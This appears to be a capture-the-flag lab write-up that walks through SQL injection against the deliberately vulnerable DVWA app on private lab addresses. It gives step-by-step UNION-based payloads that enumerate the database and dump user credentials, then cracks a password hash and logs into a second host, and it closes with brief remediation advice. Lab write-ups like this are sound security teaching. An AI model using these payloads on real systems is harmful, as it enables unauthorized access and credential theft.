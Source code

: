 # Challenge 1: SQL Injection

## Objective
Exploit an SQL injection vulnerability on the DVWA server at `10.5.5.12` to retrieve Bob Smith's credentials, crack his password, and access the flag file on `192.168.0.10`.

## Step 1: Preliminary Setup
1. Open a browser and navigate to `http://10.5.5.12` (remove `https://` if needed).
2. Log in with credentials: `admin` / `password`.
3. Set DVWA security level to **Low** and click Submit.

## Step 2: Retrieve Bob Smith's Credentials
1. **Check for SQL Vulnerability**:
   - Navigate to the SQL Injection tab.
   - In the User ID field, enter: `' OR 1=1 #`
   - **Output**: Displays all user data, confirming SQL injection vulnerability.
   - Screenshot: ![SQL Vulnerability](./screenshots/image4.png)

2. **Determine Number of Fields**:
   - Enter: `1' ORDER BY 1 #` (works)
   - Enter: `1' ORDER BY 2 #` (works)
   - Enter: `1' ORDER BY 3 #` (returns error, indicating 2 columns).
   - Screenshot: ![Field Count](./screenshots/image2.png)

3. **Check DBMS Version**:
   - Enter: `1' OR 1=1 UNION SELECT 1,VERSION() #`
   - **Output**: MySQL version 5.5.58.
   - Screenshot: ![DBMS Version](./screenshots/image5.png)

4. **Get Database Name**:
   - Enter: `1' OR 1=1 UNION SELECT 1,DATABASE() #`
   - **Output**: Database name is `dvwa`.
   - Screenshot: ![Database Name](./screenshots/image10.png)

5. **Retrieve Table Names**:
   - Enter: `1' OR 1=1 UNION SELECT 1,TABLE_NAME FROM information_schema.tables WHERE table_schema='dvwa' #`
   - **Output**: Tables `guestbook` and `users`.
   - Screenshot: ![Table Names](./screenshots/image8.png)

6. **Retrieve Column Names**:
   - Enter: `1' OR 1=1 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='users' #`
   - **Output**: Columns `user_id`, `first_name`, `last_name`, `user`, `password`, `avatar`, `last_login`, `failed_login`.
   - Screenshot: ![Column Names](./screenshots/image3.png)

7. **Retrieve Credentials**:
   - Enter: `1' OR 1=1 UNION SELECT user,password FROM users #`
   - **Output**: Retrieved username `smithy` and password hash for Bob Smith.
   - Screenshot: ![Credentials](./screenshots/image11.png)

## Step 3: Crack Bob Smith’s Password
- Use CrackStation to crack the password hash.
- **Result**: Password for `smithy` (Bob Smith) is `password`.
- Screenshot: ![Cracked Password](./screenshots/image9.png)

## Step 4: Access the Flag File
1. Log into `192.168.0.10` using `smithy` / `password`.
2. Locate and open the flag file in Bob Smith’s home directory.
- Screenshot: ![Flag File](./screenshots/image1.png)

## Remediation
- Use prepared statements to sanitize inputs.
- Set DVWA security to high to prevent SQL injection.
- Restrict database user permissions.
